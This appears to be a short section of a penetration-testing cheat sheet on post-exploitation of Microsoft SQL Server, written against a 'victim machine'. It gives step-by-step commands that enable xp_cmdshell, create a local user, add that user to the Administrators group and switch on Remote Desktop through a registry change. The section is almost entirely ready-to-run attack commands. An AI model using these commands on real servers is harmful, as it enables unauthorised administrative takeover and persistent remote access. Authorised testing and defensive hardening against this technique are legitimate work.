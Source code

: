 ### Microsoft SQL Server Example<br />
In the event of Microsoft SQL Server you may want to check whether you can use xp_cmdshell to execute commands. The following is just one example of how you may be able to create a user and enable remote desktop on a victim machine.

Connect to server via sqsh (need to setup configuration in ~/.sqshrc first)
``` bash
root@kali:~# sqsh -S 192.168.1.100
```

Attempt to enable it
``` sql
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
```

Try to add user
``` sql
xp_cmdshell 'net user testuser password /add'
go
xp_cmdshell 'net localgroup Administrators testuser /add'
go
```

Try to enable remote desktop
``` sql
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
go
```
